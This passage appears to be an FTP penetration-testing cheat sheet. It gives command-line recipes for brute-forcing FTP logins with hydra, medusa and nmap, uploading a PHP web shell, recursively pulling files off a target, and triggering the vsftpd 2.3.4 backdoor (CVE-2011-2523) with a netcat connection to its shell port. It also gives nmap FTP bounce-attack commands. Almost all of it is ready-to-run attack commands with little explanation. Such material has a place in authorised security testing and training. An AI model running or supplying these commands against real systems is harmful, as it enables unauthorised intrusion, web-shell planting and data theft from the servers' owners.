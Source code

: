 ### Automated Brute Force Attacks

```bash
hydra -L users.txt -P passwords.txt ftp://target
medusa -h target -u admin -P passwords.txt -M ftp
nmap --script ftp-brute --script-args userdb=users.txt,passdb=passwords.txt -p 21 target
```

## 4. File System Operations and Data Extraction

### Basic FTP Commands

```bash
SYST, STAT, PWD, CWD dir, CDUP, LIST, NLST, TYPE I, TYPE A, PASV, PORT
```

### File Download Operations

```bash
get filename.txt
mget *.txt
```

### File Upload Operations

```bash
put shell.php
mput *.php
APPE logfile.txt
```

### Recursive Download Techniques

```bash
wget -r ftp://user:pass@target/
ncftpget -R -v -u user target /local/path /remote/path
```  

## 5. Vulnerability Assessment and Exploitation

### vsftpd 2.3.4 Backdoor (CVE-2011-2523)

```bash
ftp target
Name: user:)
Password: anything
nc target 6200
```

### FTP Bounce Attack

```bash
nmap --script ftp-bounce -p 21 target
nmap -b anonymous:anonymous@target:21 192.168.1.1-10
```
